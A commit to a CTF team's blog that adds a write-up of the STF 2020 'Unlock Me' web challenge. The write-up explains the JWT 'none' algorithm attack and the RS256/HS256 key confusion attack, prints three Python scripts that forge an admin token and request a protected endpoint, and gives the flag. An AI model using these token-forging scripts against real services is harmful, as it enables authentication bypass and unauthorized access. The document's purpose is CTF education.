

Before and after one commit to TeamCookieZ/TeamCookieZ.github.io, a Jekyll site: the page built from _posts/2020-07-19-enowars-4-CTF.md, in a window 1280 px wide and 1400 px high, scrolled down 2987 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown.

Commit message:
Added Unlock Me

````diff
--- a/_posts/2020-07-19-enowars-4-CTF.md
+++ b/_posts/2020-07-19-enowars-4-CTF.md
@@ -118,6 +118,6 @@ Overall, even though we did not place high for the competition it was a good int
 
 # Resources & Challenges
 
-[Challenges/Vulnerable Services](https://github.com/enowars/enowars4-vulnbox-services
+[Challenges/Vulnerable Services](https://github.com/enowars/enowars4-vulnbox-services)
 [Scoreboard used (Bambi Scoreboard)](https://github.com/enowars/bambi-scoreboard)
 [Infrastructure used (Bambi CTF Infrastructure)](https://github.com/enowars/bambictf)
--- /dev/null
+++ b/_posts/2020-12-08-STF-Unlock-Me.md
@@ -0,0 +1,243 @@
+---
+title: STF [Unlock Me]
+author: Lim Kai Xian (AxiaMil)
+date: 2020-12-08 14:00:00 +0800
+categories: [CTF, STF]
+tags: [JWT abuse, tech, cookies, web]
+toc: true
+comments: true
+---
+
+*75 SOLVES*
+
+*DESCRIPTION*
+
+Our agents discovered COViD's admin panel! They also stole the credentials minion:banana, but it seems that the user isn't allowed in. Can you find another way?
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/1.png)
+
+# Initial Testing
+Accessing the [web page](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/) you would see
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/2.png)
+
+From the picture, you can see that the webpage only offers a simple login page into COViD HQ. I firstly tested out the credentials given by the challenge description (minion:banana), which result in the
+webpage replying with an `only admins are allowed into HQ`.
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/3.png)
+
+Trying out simple credentials like (admin:admin) (admin:password) and supplying double quotes (") or single quote (') all leads to the same error of `incorrect credentials`
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/4.png)
+
+Using [editthiscookie extension](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) to check for cookies also did not show much clue
+
+# Discovering of exploit
+
+However, viewing the source code [ctrl + u] of the webpage, I was able to get some hints on what the webpage was doing (possible lead)
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/5.png)
+
+Looking at the source code we can see that the credentials are fetch from the post request from the login form and is json.stringify into this format { username : minion, password: banana }.
+It would then be send to the backend and return a session which would be used to authorize the user into the webpage.
+Lets see this in action using burpsuite.
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/6.png)
+![upload-image](/assets/img/blog/STF-Unlock-Me/7.png)
+
+Looking at the super long session provided seems familiar, it is most likely a Json Web Token (JWT) as indicated in the source with the use of json.stringify.
+Decoding the cookies using the [official jwt website](https://jwt.io), we can see the provided payload and the algorithm used.
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/8.png)
+
+The algorithm used is on RS256 which would explain the excessively long web token.
+As you can see from the payload, the provided username with its password was able to give us a valid session. However, the role of the user minion is `user` hence the error given showed
+`only admin allowed` as it was not an admin. ** NICE WE HAVE FOUND A LEAD TO WORK TOWARDS **
+
+However, since this is algorithm uses an asymmetric encryption, we could not just brute force the symmetric key like most HMAC algorithm JWT token challenges as it uses the private key
+to sign the JWT.
+
+Doing a google search on JWT vulnerabilities would show u some possible exploits that JWT have, finding a possible exploit which may relate are the `none algorithm attack`
+and the `JWT downgrade attack` or also known as `JWT confusion between HMAC and RSA256`.
+
+# Explaining the two vulnerabilities
+
+### Typical JWT
+
+A typical JWT will look like this
+`
+eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
+`
+JWT are split into 3 parts which are the header, payload and the signature. The header consist of the alg which would be used for the signature.
+To decode a JWT token is easy as you just need to base64 decode the value (do note that you have to supply '==' at the back as JWT automatically strips it away).
+
+### JWT No algorithm Attack
+
+Some libraries treat the `none algorithm` as a valid token with a verified signature. Therefore, anyone would be able to create their own verified JWT with their payload with an empty signature.
+The JWT token would look something like this
+`
+eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzQyMzgwM30.
+`
+
+### JWT Downgrade Attack
+
+CONFUSIONN!!!! When the token is signed with RSA, and the server expects a token signed with RSA but receives a token signed with HMAC, they would
+think the public key is the secret key. Therefore by using the public key which is accessible to everyone to verify the token we can use it as the secret key and the
+server would think that it is a valid JWT.
+
+### Read more here
+
+To read more go [here blog](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) and [here video](https://www.youtube.com/watch?v=wt3UixCiPfo)
+
+
+Please scroll down to the # **Actual Exploit** if you do not want to read my dumb mistakes and skip to the actual exploit :)
+
+# Exploiting
+
+Since the website runs on http and not https we were not able to get the public key, that the JWT downgrade attack needed (yes, my dumb ass did not see the source code properly).
+Hence, i procedeed into testing out the none algorithm attack. using the [python JWT library], i created my own JWT with the given payload and change user role to admin.
+Since it does not rely on an algorithm, it does not require a key/password.
+
+```py
+import requests
+import json
+import jwt, token
+import base64
+
+proxies = {
+    "http" : "http://127.0.0.1:8080/"
+}
+
+url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login'
+myobj = {"username":"minion","password":"banana"}
+x = requests.post(url, data = myobj)
+
+jwt_token = x.text[16:-2]
+split_token = jwt_token.split('.')
+token = split_token[1]
+
+payload = str(base64.b64decode(token + "=="))
+iat = payload[43:-2]
+
+new_payload = '{ "username": "minion", "role": "admin", "iat": ' + iat + ' }'
+encoded_jwt = str(jwt.encode(json.loads(new_payload), key='', algorithm='none'))
+encoded_jwt = encoded_jwt[2:-1]
+
+new_url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock'
+authentication = "Bearer " + encoded_jwt
+headers = {'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0', "Accept": "*/*", "Host": "yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/", "Authorization": authentication}
+new_request = requests.get(new_url, headers = headers)
+print(new_request.text)
+```
+
+The script could be easier if you get the iat through burpsuite then decode it using [jwt.io](https://jwt.io) and input the iat into the field manually.
+
+Throwing in the newly generated JWT i created into burpsuite and forwarding the GET request for the token, I was not able to logged in :(.
+
+I was hard stuck as to why it did not work and decided to try the other vulnerability which is the downgrade attack. Since i was not able to get the public key from the website(http).
+I went to the main website and retrieve the certificate to get the public key.
+
+`
+$ openssl s_client -connect https://play.cat2.stf-2020.alttablabs.sg/:443 > cert.pem
+$ openssl x509 -in cert.pem -pubkey -noout > key.pem
+`
+Using key.pem, as the new key for the HMAC encryption, I edited the script for the encryption of the public key.
+
+```py
+import requests
+import json
+import jwt, token
+import base64
+
+proxies = {
+    "http" : "http://127.0.0.1:8080/"
+}
+
+url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login'
+myobj = {"username":"minion","password":"banana"}
+x = requests.post(url, data = myobj)
+
+secret = open('public.pem', 'r').read()
+
+jwt_token = x.text[16:-2]
+split_token = jwt_token.split('.')
+token = split_token[1]
+
+payload = str(base64.b64decode(token + "=="))
+iat = payload[43:-2]
+
+new_payload = '{ "username": "minion", "role": "admin", "iat": ' + iat + ' }'
+encoded_jwt = str(jwt.encode(json.loads(new_payload), key=secret, algorithm='HS256'))
+encoded_jwt = encoded_jwt[2:-1]
+
+new_url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock'
+authentication = "Bearer " + encoded_jwt
+headers = {'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0', "Accept": "*/*", "Host": "yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/", "Authorization": authentication}
+new_request = requests.get(new_url, headers = headers)
+print(new_request.text)
+```
+
+# Actual Exploit
+After looking through the source code again i found out that they have actually given a file called public.pem at the end of the line
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/9.png)
+
+Accessing the webpage i was given a public key...
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/10.png)
+
+BOOYYYYYY WAS I DUMB, HOW DID I NOT SEE THIS... hais...and here i was wondering why everyone solved it so easily, watv.
+(if you have seen this you would have tried the downgrade attack only instead of the no algorithm attack)
+
+Using back the same script and changing the public key to the new key i was able to get the flag
+`
+$ curl yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/public.pem > public.pem
+`
+
+```py
+import requests
+import json
+import jwt, token
+import base64
+
+proxies = {
+    "http" : "http://127.0.0.1:8080/"
+}
+
+url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login'
+myobj = {"username":"minion","password":"banana"}
+x = requests.post(url, data = myobj)
+
+secret = open('public.pem', 'r').read()
+
+jwt_token = x.text[16:-2]
+split_token = jwt_token.split('.')
+token = split_token[1]
+
+payload = str(base64.b64decode(token + "=="))
+iat = payload[43:-2]
+
+new_payload = '{ "username": "minion", "role": "admin", "iat": ' + iat + ' }'
+encoded_jwt = str(jwt.encode(json.loads(new_payload), key=secret, algorithm='HS256'))
+encoded_jwt = encoded_jwt[2:-1]
+
+new_url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock'
+authentication = "Bearer " + encoded_jwt
+headers = {'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0', "Accept": "*/*", "Host": "yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/", "Authorization": authentication}
+new_request = requests.get(new_url, headers = headers)
+print(new_request.text)
+```
+
+![upload-image](/assets/img/blog/STF-Unlock-Me/11.png)
+flag : govtech-csg{5!gN_0F_+h3_T!m3S}
+
+# Thoughts
+
+This challenge was pretty easy but due to me not seeing the source code properly it took me so longgggg to fix my problem.
+
+# references
+
+[JWT attack walk through (nccgroup)](https://www.nccgroup.com/sg/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/)
+[critical vulnerabilities in JWT libraries (Auth0)](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
+[Abusing JWT (Security Weekly)](https://www.youtube.com/watch?v=wt3UixCiPfo)
+[pyJWT documentation](https://pyjwt.readthedocs.io/en/stable/)
````
Also changed, not shown: assets/img/blog/STF-Unlock-Me/1.png (added), assets/img/blog/STF-Unlock-Me/10.png (added), assets/img/blog/STF-Unlock-Me/11.png (added), assets/img/blog/STF-Unlock-Me/2.png (added), assets/img/blog/STF-Unlock-Me/3.png (added), assets/img/blog/STF-Unlock-Me/4.png (added), assets/img/blog/STF-Unlock-Me/5.png (added), assets/img/blog/STF-Unlock-Me/6.png (added), assets/img/blog/STF-Unlock-Me/7.png (added), assets/img/blog/STF-Unlock-Me/8.png (added), assets/img/blog/STF-Unlock-Me/9.png (added), assets/img/blog/STF-Unlock-Me/error.png (added).
